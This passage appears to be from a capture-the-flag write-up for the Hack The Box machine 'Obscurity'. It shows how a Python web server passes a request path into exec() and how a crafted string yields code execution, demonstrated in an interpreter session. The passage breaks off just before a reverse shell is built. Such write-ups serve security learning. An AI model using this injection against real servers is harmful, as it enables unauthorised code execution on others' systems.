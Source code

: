 
```bash
$ wget http://obscurity.htb:8080/develop/SuperSecureServer.py
```

### Exploitation

After combing through the code for a bit, we come across this snippet:

```python
def serveDoc(self, path, docRoot):
    path = urllib.parse.unquote(path)
    try:
        info = "output = 'Document: {}'" # Keep the output for later debug
        exec(info.format(path)) # This is how you do string formatting, right?
```

That `exec` call is how we're going to break out of this server. We just need to figure out how to get our command in there. From the python man page about exec:

```bash
exec(source, globals=None, locals=None, /)
    Execute the given source in the context of globals and locals.

    The source may be a string representing one or more Python statements
    or a code object as returned by compile().
    The globals must be a dictionary and locals can be any mapping,
    defaulting to the current globals and locals.
    If only globals is given, locals defaults to it.
```

I launch a `python` interpreter to play around with this for a bit:

```python
$ python3
Python 3.7.7 (default, Mar 10 2020, 13:18:53)
[GCC 9.2.1 20200306] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> info = "output = 'Document: {}'"
>>> info.format("', print(3)'")
"output = 'Document: ', print(3)''"
>>> exec(info.format("', print(3)'"))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1
    output = 'Document: ', print(3)''
                                    ^
SyntaxError: invalid syntax
>>> info.format("', print(3), '")
"output = 'Document: ', print(3), ''"
>>> exec(info.format("', print(3), '"))
3
```

And there we have code execution. Let's build this out into code execution to get a reverse shell. First, we need a reverse shell.
